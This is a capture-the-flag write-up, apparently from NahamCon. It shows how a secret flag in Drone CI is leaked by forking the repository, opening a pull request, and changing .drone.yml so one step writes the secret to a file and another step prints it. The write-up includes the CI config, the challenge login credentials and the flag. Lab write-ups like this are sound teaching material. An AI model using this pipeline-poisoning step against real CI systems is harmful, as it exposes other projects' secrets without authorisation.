





# How to

This was a fun one

First starting up the system and have a look into the servers

### Gitea

http://git.challenge.nahamcon.com:32637/ does have one repository with a done ci yaml including following line

```
steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG"
   environment:
      FLAG:
        from_secret: flag
```

So the flag is printed out with echo.
Let's see the latest build  on http://drone.challenge.nahamcon.com:32637/JustHacking/poisoned/10/1/2

```
+ echo "Running from the $DRONE_BRANCH branch"

Running from the master branch

+ echo "Flag -> $FLAG"

Flag -> [secret:flag]
```

As expected Drone CI is mascerading the secret.

Let's see if we can change the code to trigger a new build.


We have to fork the repository.

So log in with the provided credentials (developer:2!W4S5J$6e), create a fork an push the change.


Having a look into drone CI, the commit did not trigger a new build.
So let's create a PR and we will see, that a new build was triggered in Drone.




Since most CI servers only mask the credentials they use within the output let's try to save the flag and then read it out outside of the secretive context, changing the .drone.yml-file to


```
---
kind: pipeline
type: exec
name: test pipeline master

platform:
  os: linux
  arch: amd64

steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG" > secret.txt
    environment:
      FLAG:
        from_secret: flag
  - name: hack-the-world
    commands:
    - cat secret.txt
trigger:
  branch:
    - master
```

The Build will write the secret to file secret.txt.
In a different step, outside of the secret-context of step `master` the file is read out and should in theory contain the flag.

Since the PR is still open a new build is triggered and we see a new step `hack-the-world` with our flag


Flag: flag{0ee4a0101bb992911c2c56e17d9b86cd}


